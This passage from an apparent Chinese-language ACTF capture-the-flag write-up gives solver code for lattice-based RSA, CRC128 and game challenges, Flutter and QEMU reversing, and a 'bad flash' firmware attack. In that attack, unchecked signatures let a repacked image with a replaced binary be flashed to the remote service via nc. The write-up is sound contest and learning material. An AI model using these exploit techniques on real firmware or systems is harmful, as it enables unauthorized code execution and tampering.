               [n1,0,0,0],
               [0,n2,0,0],
               [0,0,n3,0]])
# e_*d_-k1*n1,n1
d=abs(M.LLL()[0][3]//2^767)
long_to_bytes(ZZ(pow(c,d,n1)))
#ACTF{5FFC427B-F14F-DCA0-C425-675B149890C2}ACTF{5FFC427B-F14F-DCA0-C425-675B149890C2}
```

### MDH

```Assembly
# sage
from hashlib import sha256

ct = 8308943029741424587523612386337754255889681699670071706719724435165094611096603769021839263
pa = []
pb = []
p = 308955606868885551120230861462612873078105583047156930179459717798715109629
Fp = GF(p)
pa = Matrix(Fp, pa)
pb = Matrix(Fp, pb)
shared = pa*pb.T
shared = shared.trace()
shared = int(sha256(str(int(shared)).encode()).hexdigest(), 16)
flag = shared ^^ ct
flag = bytes.fromhex(hex(flag)[2:])
print(flag)
```

### claw crane

这里是用WASD去移动到特定的position，显然方案不止一种，不同的方案会影响后边函数gen_chaos的输出

​

destiny函数直接影响了score，delta越小以及bless越大则赢的概率越大。因此考虑怎么让delta小一点，而p和q是可控的，这里考虑造个格(?)规约。或者不管r的值，毕竟它经过md5输出也不太可控，把delta的式子看作不定方程。

​

​

md5那个位置该怎么利用没想好。

可以通过前64个move来控制vs，使得计算md5(self.seed + vs)的时候，结果总是上一次的self.seed，r就固定了：

```Python
last_chaos = ...
vs = (-last_chaos -1) % pow(2, 128)
```

再通过move[64:]走到pos处

```Python
from pwn import *
from multiprocessing.spawn import freeze_support
from pwnlib.util.iters import mbruteforce
from hashlib import sha1

# context.log_level = "debug"
def proof_of_work(conn):
    conn.recvuntil("prefix+\"")
    suffix = conn.recv(58).decode()
    conn.recvuntil("==")
    digest = conn.recvline().strip().decode("utf8")

    def f(x):
        return sha1((x + suffix).encode()).hexdigest() == digest

    proof = mbruteforce(f, "0123456789abcdef", length=6, method='fixed')
    print(f"proof: {proof}")

    conn.sendlineafter("prefix = ?\n", proof.encode())

def solve_choas(last_choas, idx, pos):
    def mapping(x):
        if x=='0': return "W"
        if x=='1': return "S"
        if x=='2': return "A"
        if x=='3': return "D"

    target = (-last_choas-1)*(idx-1) % pow(2, 128)
    moves = ""
    while target:
        moves = mapping(str(target % 4)) + moves
        target //= 4
    if len(moves) != 64:
        moves = mapping("0") * (64 - len(moves)) + moves
    # print(f"moves[:64] is {moves[:64]}")

    current_pos = check_pos(moves)
    # print(f"moves[:64] pos is {current_pos}")

    sol_moves = solve_pos(current_pos, pos)
    # print(f"moves[64:] is {sol_moves}")
    moves = moves + sol_moves

    return moves

def check_pos(moves):
    col, row = 0, 0
    for move in moves:
        if move == "W":
            if row < 15: row += 1
        elif move == "S":
            if row > 0: row -= 1
        elif move == "A":
            if col > 0: col -= 1
        elif move == "D":
            if col < 15: col += 1
        else:
            return -1
    print(col, row)
    return [col, row]

def solve_pos(current_pos, target_pos):
    x0, y0 = current_pos
    x1, y1 = target_pos

    sol = ""
    if x0 < x1:
        sol += "D" * (x1-x0)
    else:
        sol += "A" * (x0-x1)
    if y0 < y1:
        sol += "W" * (y1-y0)
    else:
        sol += "S" * (y0-y1)
    return sol

def solve_pq(choas):
    L = matrix(ZZ, [[2^128, 0], [choas, 1]])
    S = L.LLL()
    len_1s = bin(int(S[0][0]))[2:].count("1")
    print(bin(int(S[0][0])))
    print(len_1s)
    if len_1s > 30:
        raise Exception("too many 1s")
    v = L.solve_left(S[0])
    p, q = v[0], v[1]
    return abs(p), abs(q), len_1s

def main():
    freeze_support()

    for tries in range(1000):
        conn = remote("152.136.172.227", 22222)
        # conn = remote("127.0.0.1", 22222)

        print(f"[{tries}] proof of work...")
        proof_of_work(conn)
        print(f"[{tries}] proof of work done!")

        idx = 0
        fail = 0
        success = 0
        choas = -1
        len_1s = None
        p, q = None, None

        print(f"[{tries}] tries...")
        try:
            while idx < 256:
                idx += 1
                conn.recvuntil(b"i am at ")
                line = conn.recvline().strip().decode()
                x1, y1 = line.split("]")[0].split("[")[1].split(",")
                x1, y1 = int(x1), int(y1)
                print(f"[{idx}] target pos: [{x1}, {y1}]")

                moves = solve_choas(choas, idx, [x1, y1])
                conn.sendlineafter(b"Your moves: ", moves.encode())

                conn.recvuntil(b"choas: ")
                choas = int(conn.recvline().strip().decode())
                print(f"[{idx}] choas: {choas}")

                if not p and not q:
                    p, q, len_1s = solve_pq(choas)

                # if fail < 28:
                #     conn.sendlineafter(b"(e.g.: 1,1):", f"{18446744073709551615}, {1}".encode())
                # else:
                conn.sendlineafter(b"(e.g.: 1,1):", f"{p}, {q}".encode())

                res = conn.recvline().strip().decode()
                if "sorry" in res:
                    fail += 1
                else:
                    success += 1
                score = conn.recvline().strip().decode()
                print(score)

            print(f"count('1'): {len_1s}")

            conn.interactive()
        except:
            continue
        finally:
            conn.close()

if __name__ == "__main__":
    main()
```

### CRCRC

在crc128中有一个初始值，经过调试可以得到头尾固定时的状态转移过程

**$$state_1-&gt;state_2-&gt;state_3-&gt;state_4$$**

由1到2是前一段base64可得，由4->3反推可以使用上面的re_crc128函数

所以最终要解决就是已知状态2和状态3，求一个在base64表中的的data值

**$$crc(\Delta \oplus a)\oplus crc(\Delta \oplus  b) = \textrm{const}\quad  \forall \Delta$$**

由这个式子可以转换成mod2加法，由于需要可见字符，所以考虑更多bytes的data，测试考虑30位的data，这样base64decode可以满足flag条件

如何对于矩阵来说

则矩阵形式为128*（30*8）*X=128*1

所以可以固定24*3&lt;30*8-128位，直接固定每个字符前3位为010，在再解空间爆破

```Python
def crc128(data, poly=0x883ddfe55bba9af41f47bd6e0b0d8f8f):
    crc = 0x9aefa6cb65b524cf97abaa31b3c757e3
    for b in data:
        crc ^^= b
        for _ in range(8):
            crc = (crc >> 1) ^^ (poly & -(crc & 1))
    return crc ^^ ((1 << 128) - 1)

def equivalent_affine_crc(crc = crc128, crc_bits = 128, target_bytes = 30):
    zero_crc = crc(target_bytes*b"\x00")
    target_bits = 8 * target_bytes
    v2n = lambda v: int(''.join(map(str, v)), 2)
    n2v = lambda n: vector(GF(2), bin(n)[2:].zfill(crc_bits))
    # n2v_t = lambda n: vector(GF(2), bin(n)[2:].zfill(target_bits))
    Affine_Matrix = []
    for i in range(target_bits):
        v = vector(GF(2), (j == i for j in range(target_bits)))
        value = crc(long_to_bytes(v2n(v),target_bytes)) ^^ zero_crc
        Affine_Matrix.append(n2v(value))
    Affine_Matrix=matrix(GF(2),Affine_Matrix).transpose()
    for i in range(target_bytes):
        v,w,k = [0]*target_bits,[0]*target_bits,[0]*target_bits
        v[i*8],w[i*8+1],k[i*8+2]=1,1,1
        v = vector(GF(2), v)
        w = vector(GF(2), w)
        k = vector(GF(2), k)
        Affine_Matrix = Affine_Matrix.stack(v)
        Affine_Matrix = Affine_Matrix.stack(w)
        Affine_Matrix = Affine_Matrix.stack(k)
    # crc affine function: crc_128(x) = M*x+ C
    return Affine_Matrix, n2v(zero_crc)

def crc_128_reverse(crc_value):
    M , C = equivalent_affine_crc()
    # crc affine function: crc_128(x) = M*x+ C
    v2n = lambda v: int(''.join(map(str, v)), 2)
    n2v = lambda n: vector(GF(2), bin(n)[2:].zfill(128))
    temp = n2v(crc_value)+C
    temp = vector(GF(2),list(temp)+[0,1,0]*30)
    print(M.ncols(),M.nrows(),len(temp))
    res = M.solve_right(temp)
    bas = M.right_kernel()
    K = len(bas.basis())
    for i in range(2<<K):
        tr = res+bas[i]
        s = long_to_bytes(v2n(tr))
#         print(s)
        if re.fullmatch(b'[A-Za-z0-9+/]*={0,2}', s):
            print(s)
            break
#     return long_to_bytes(v2n(res))
crc_128_reverse(0x1bff942435a8f7d5b2f76fc4735f168b ^^ ((1 << 128) - 1))
#HTSUZATLBQWGHRQPUFXZVYBPLCPOMB
#得到RGVhciBndWVzdCwgd2VsY29tZSB0byBDUkNSQyBNYWdpYyBIb3VzZSwgSWYgeW91IGlucHV0IAHTSUZATLBQWGHRQPUFXZVYBPLCPOMBLCB5b3Ugd2lsbCBnZXQgMHg5YzZhMTFmYmMwZTk3YjFmZmY1ODQ0ZmE4OGIxZWUyZA==
```

### MidRSA

**$$E*D-k_1*n_1=A\\E*D-a*n_2=B\\E*D-d*n_3=C$$**

存在这三个等式关系，其中D，A，B，C均为小于E的较小数.

这里相比于上面卡了4-6bits的界，所以爆破一下高位就行

**$$E*(h_d+d_0)-k_1*n_1=h_a+A_0\\E*(h_d+d_0)-a*n_2=h_b+B_0\\E*(h_d+d_0)-d*n_3=h_c+C_0$$**

展开造一个类似的格，然后爆破就ok，时间上也是几分钟

```Python
for i in tqdm(range(70000,2^20)):
    t1 = bin(i)[2:].zfill(21)
    h = int('1'+t1[:3],2) << 0x23c
    h1 = int(t1[3:9],2) << 1338
    h2 = int(t1[9:15],2) << 1338
    h3 = int(t1[15:21],2) << 1338
    M = Matrix(QQ,[[-e,-e,-e,2^766,0,0,0,0],
                   [n1,0,0,0,0,0,0,0],
                   [0,n2,0,0,0,0,0,0],
                   [0,0,n3,0,0,0,0,0],
                   [-h*e,-h*e,-h*e,0,2^(1338),0,0,0],
                   [-h1,0,0,0,0,2^1338,0,0],
                   [0,-h2,0,0,0,0,2^1338,0],
                   [0,0,-h3,0,0,0,0,2^1338]])
    # e_*d_-k1*n1,n1
    res = M.LLL()
    d = int(res[0][3]//2^766) + h
    if b'ACTF' in long_to_bytes(ZZ(pow(c,d,n1))):
        print(long_to_bytes(ZZ(pow(c,d,n1))))
```

# Rev

### **native app ​**

flutter题，用https://github.com/worawit/blutter 分析libapp.so可以解出dart代码及偏移量

```Python
  [closure] void _onChanged(dynamic, String) {
    // ** addr: 0x1e0588, size: -0x1
  }
  [closure] void _onSubmit(dynamic, String) {
    // ** addr: 0x1e03c4, size: -0x1
  }
  [closure] void _onLongPressed(dynamic) {
    // ** addr: 0x1deba8, size: -0x1
  }
  [closure] void _onTap(dynamic) {
    // ** addr: 0x1de4b8, size: -0x1
  }
```

其中_onChanged对应将输入框内容同步到文本框，_onSubmit对应输入法确认按钮在文本框对应提交操作，_onTap和_onLongPressed分别对应提交按钮的点击和长按。

经测试发现操作序列为提交、点按、长按。提交和点按分别对应State里两个String成员字段的赋值，之后按钮长按事件最为可疑，其中调用函数为sub_1DEBF0()，观察其函数内部的流程图，将StackOverflowSharedWithoutFPUR()视为异常分支，可以理解该函数主体为一循环。

​

输入"abc"，ida断点在0x1DEC60观察边界条件，可发现w0是0x44，w1是0x06，其中w0是预期字符串长度，w1是当前字符长度，结合Dart的SMI整数表示特点，预期的字符串长度实际为0x44/2=0x22即34个字符。

​

输入34个随机字符（大小写字母+数字）继续测试发现该循环对字符串进行了逐字符比较，在界面上输出false或true。并且每个字符被映射到的字节值和字符所在位置有关，构造映射表不可行。尝试若干字符后，发现映射前后大致存在线性关系，存在二分法加速暴力枚举的可能性。故通过断点在单个字符判断条件上暴力得到flag：Iu2xpwXLAK734btEt9kXIhfpRgTlu6KuI0

### qemu-playground-1

要调内核吗，没看懂什么意思

​

怎么感觉下面这个是加密函数

​

一些shell读写mmio、pmio技巧：

* 查看设备mmio、pmio地址范围：`cat /sys/devices/pci0000:00/0000:00:04.0/device`​

  ```Bash
  0x00000000febf1000 0x00000000febf1fff 0x0000000000040200
  0x000000000000c040 0x000000000000c05f 0x0000000000040101
  0x0000000000000000 0x0000000000000000 0x0000000000000000
  ```

  * 第一行是mmio，地址从0x00000000febf1000到0x00000000febf1fff，4096bytes但似乎qemu代码里显示只能访问64bytes
  * 第二行是pmio，地址从0x000000000000c040到0x000000000000c05f，可访问0x20bytes
* 访问mmio，注意你的地址可能和我的地址不一样

  * 将mmio全部16*4bytes写0

  ```Bash
  START_ADDRESS=0xfebf1000
  NUM_WORDS=16
  i=0
  while [ $i -lt $NUM_WORDS ]; do
      ADDRESS=$((START_ADDRESS + i * 4))
      devmem $ADDRESS 32 0 # 这里0是要写入的值
      i=$((i + 1))
  done
  ```

  * 读mmio

  ```Bash
  START_ADDRESS=0xfebf1000
  NUM_WORDS=16
  i=0
  while [ $i -lt $NUM_WORDS ]; do
      ADDRESS=$((START_ADDRESS + i * 4))
      printf "Address: 0x%08x, Value: 0x%04x\n" $ADDRESS $(devmem $ADDRESS 32)
      i=$((i + 1))
  done
  ```
* 访问pmio

  * 读pmio地址空间里，0x0000c04及以后的内容

    ```Bash
    xxd /dev/port | grep -A 10 "0000c04" 
    ```
  * 写特定地址，下面是往pmio空间内偏移为0x1的地址写了一个0x1，从代码里看，往0x1这里写值会触发他的worker thread

    ```Bash
    echo -n -e "\x1" | dd of=/dev/port bs=1 seek=$((0xc040 + 0x1)) count=1 conv=notrunc status=none
    ```

z3写一下加密逻辑

```Python

# cipher = [0xABA29EC2A98DD89A, 0xBBF1B4AB81B4A9D4, 0xFB92A48DB386FFA8, 0xEFB491B8AFB4ABD3, 0x80EF69F1CBD00397, 0xB2EB07859CDA52D3, 0xEC9E22F5A5A07FA3, 0x4B36DF7B5B655A84]

cipher = b'\x9a\xd8\x8d\xa9\xc2\x9e\xa2\xab\xd4\xa9\xb4\x81\xab\xb4\xf1\xbb\xa8\xff\x86\xb3\x8d\xa4\x92\xfb\xd3\xab\xb4\xaf\xb8\x91\xb4\xef\x97\x03\xd0\xcb\xf1i\xef\x80\xd3R\xda\x9c\x85\x07\xeb\xb2\xa3\x7f\xa0\xa5\xf5"\x9e\xec\x84Ze[{\xdf6K'

# cipher = list(cipher)

# round_cnt = 10

# delta = 16
# xor_val = delta * (round_cnt - 1)

# for i in range(round_cnt // 2):
#     for j in range(0x20):
#         cipher[0x20 + j] ^= ((xor_val + j) & 0xff) ^ cipher[j]
#     xor_val -= delta
#     for j in range(0x20):
#         cipher[j] ^= ((xor_val + j) & 0xff) ^ cipher[j + 0x20]
#     xor_val -= delta

# print(bytes(cipher))

from z3 import *

xs = [BitVec(f'x{i}', 8) for i in range(0x40)]

order = xs.copy()

magic = 0x1234ac7f
iv = [0x7f, 0xac, 0x34, 0x12] * 8
# iv = [BitVec('iv', 8)] * 0x20

xor_val = 0
for i in range(10):
    base = i * 0x20
    for j in range(0x20):
        iv[j] = iv[j] ^ ((j + xor_val) & 0xff)
        xs.append(xs[base + j] ^ xs[base + j + 0x20] ^ iv[j])
    xor_val += 17

s = Solver()

cmp = xs[-0x40:]

assert(len(cmp) == 0x40)

for i in range(0x40):
    s.add(xs[i] <= 0x7f)
    s.add(xs[i] >= 0x20)
    s.add(cmp[i] == cipher[i])

if s.check() == sat:
    m = s.model()
    flag = []
    for i in order:
        flag.append(int(f'{m[i]}'))
    print(''.join(chr(i) for i in flag))
        # print(f"{i} : ")
else:
    print("no sol")
```

主要在于有个初值, 原本假设为0, 所以z3没跑出来, 后面用文档里的方案触发了加密函数, 调试看到了magic不是0

不懂为什么用pwn模板的pmio没法触发, 做pwn会比较麻烦

### bad flash

nc发送的数据被作为程序的标准输入，分析发现接受两种类型的cmd，这里直接用shell语句构造。由于要求每个cmd总长度为256，这里用printf补0x00

* FLASH指令，cmd后面要接要flash进去的image文件内容，FLASHSZ指定的是image文件的长度

  ```Bash
  nc 120.46.197.71 9999  < <(cat <(echo -n '.COMLEN:256.OP:FLASH.FLASHSZ:1048904.') <(printf '\x00%.0s' {1..219}) ./flash.img)
  ```

  执行显示成功

  ```Bash
  > Start flashing...
  IMG_ID: c68941c31d91260ccdcc8b05fc17c009
  New banner program flashed.
  >
  ```
* ECHO指令，后面不需要跟image文件，但是也要求cmd总长256.

  ```Bash
  nc 120.46.197.71 9999  < <(cat <(echo -n '.COMLEN:256.OP:ECHO.FLASHSZ:0.') <(printf '\x00%.0s' {1..226}))  
  ```

执行得到

```Bash
> Fl4sh the device to display a welcome message.
> 
```

注意到可以一次nc里带多个cmd，例如先FLASH再ECHO，但是也没有什么变化。

```Bash
nc 120.46.197.71 9999  < <(cat <(echo -n '.COMLEN:256.OP:FLASH.FLASHSZ:1048904.') <(printf '\x00%.0s' {1..219}) ./flash.img <(echo -n '.COMLEN:256.OP:ECHO.FLASHSZ:0.') <(printf '\x00%.0s' {1..226}))
```

以上FLASH过程在本地执行时报0x09错误，死在了verify_header()函数上，猜测是本地和远程的verify_header()实现不同，用binpatch掉这个verify_header()，本地跑可以跑到后面flash_to_file()生成/data/tmp-plain-img，其中没有flag，但是有个NOTICE提示flash过程是突破点。

分析image结构：

* [0:72]是头信息
* [72: 72+128]是RSA1024的签名，elf文件里含有4个公钥，用的是最后那个
* [72+128: 72+128+128]是用RSA1024加密后的aes密钥，用gdb断点在aes_decrypt_image()上可以获得aes key和iv
* [72+128+128: 末尾]是AES CBC mode加密的ext4文件，里面有一个NOTION文件提示了要替换/data/welcome，从/data/flag读出flag

分析发现负责签名验证的verify_signature()函数没有验签

​

可以拿gdb断点在aes_decrypt_image()上可以获得aes key和iv以及解密后的ext4文件。拿losetup和mount挂载这个ext4文件，然后编一个aarch64的elf文件换掉里面的/data/welcome然后umount。

再重新加密回去替换掉原来image文件的[72+128+128: 末尾]部分即可构造可以被远端接受的image：

```Python
from Crypto.Cipher import AES

key = bytes.fromhex('c510ba99d16f48a319e86b5ac572c4a933dec0656d8dfc77dc81867010c6401a')
iv = bytes.fromhex('b624b5e252a6b1805a5fc3374b5144c8')
myCipher = AES.new(key, AES.MODE_CBC, iv=iv)
# repack
with open('flash.img', 'rb') as file:
    bs = file.read()
with open('repacked_fs.bin', 'rb') as file:
    fs = file.read()
enfs = myCipher.encrypt(fs)

bs = bs[:72+128+128] + enfs

with open('repacked_flash.img', 'wb') as file:
    file.write(bs)
```

先FLASH再ECHO

```Python
nc 120.46.197.71 9999  < <(cat <(echo -n '.COMLEN:256.OP:FLASH.FLASHSZ:1048904.') <(printf '\x00%.0s' {1..219}) ./repacked_flash.img <(echo -n '.COMLEN:256.OP:ECHO.FLASHSZ:0.') <(printf '\x00%.0s' {1..226}))
```
